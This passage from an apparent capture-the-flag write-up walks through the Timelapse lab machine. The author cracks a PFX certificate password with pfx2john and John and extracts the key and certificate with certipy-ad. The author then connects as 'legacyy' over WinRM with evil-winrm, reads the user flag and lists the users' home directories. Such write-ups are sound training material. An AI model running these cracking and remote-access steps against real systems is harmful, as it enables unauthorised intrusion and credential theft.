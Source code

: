 Apparently, it was a protected PFX certificate into a protected ZIP file. John could crack it as well.

```bash
pfx2john legacyy_dev_auth.pfx > certificate.hash

john certificate.hash -w=/usr/share/wordlists/rockyou.txt
legacyy_dev_auth.pfx:<REDACTED>
```

Extracted the certificate and the private key from the PFX, providing the cracked password.

```bash
sudo certipy-ad cert -pfx legacyy_dev_auth.pfx -nocert -out dusk.key -password "<REDACTED>"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'dusk.key'

sudo certipy-ad cert -pfx legacyy_dev_auth.pfx -nokey -out dusk.crt -password "<REDACTED>"
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'dusk.crt'
```

Connected as ‘legacyy’ over WinRM HTTPS and read the user flag.

```
evil-winrm --ssl -c dusk.crt -k dusk.key -i 10.129.227.113

*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy

*Evil-WinRM* PS C:\Users\legacyy\Documents> hostname
dc01

*Evil-WinRM* PS C:\Users\legacyy\Documents> type c:\users\legacyy\desktop\user.txt
0d19be8761901ce4****************
```

# Lateral Movement

Listing the home directories shows that we aren’t alone in the target box.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> dir c:\users
  Directory: C:\users
	Mode                LastWriteTime         Length Name
	----                -------------         ------ ----
	d-----       10/23/2021  11:27 AM                Administrator
	d-----       10/25/2021   8:22 AM                legacyy
	d-r---       10/23/2021  11:27 AM                Public
	d-----       10/25/2021  12:23 PM                svc_deploy
	d-----        2/23/2022   5:45 PM                TRX
```
